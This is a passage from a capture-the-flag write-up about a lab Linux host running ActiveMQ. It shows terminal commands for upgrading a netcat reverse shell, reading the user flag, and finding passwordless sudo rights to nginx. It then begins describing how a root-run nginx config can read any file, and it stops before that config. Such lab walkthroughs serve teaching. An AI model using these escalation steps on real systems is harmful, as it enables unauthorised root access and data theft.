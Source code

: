 I’ll do a [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

activemq@broker:/opt/apache-activemq-5.15.15/bin$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
activemq@broker:/opt/apache-activemq-5.15.15/bin$ ^Z
[1]+  Stopped                 nc -lnvp 9001
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 9001
             reset
reset: unknown terminal type unknown
Terminal type? screen
activemq@broker:/opt/apache-activemq-5.15.15/bin$ 

```

And grab `user.txt`:

```

activemq@broker:~$ cat user.txt
61b5553d************************

```

## Shell as root

### Enumeration

The activemq user can run `nginx` as root with no password:

```

activemq@broker:~$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx

```

### Create Malicious Webserver

#### File Read

With `sudo nginx`, I solved this by standing up my own server as root. [This page](https://www.nginx.com/resources/wiki/start/topics/examples/full/) has example configs. Mine is quite simple. `user` will be root. It must have an `events` section to define the number of workers, so I’ll pick something arbitrary. Then I make an `http` section with a server that is hosted from the system root:
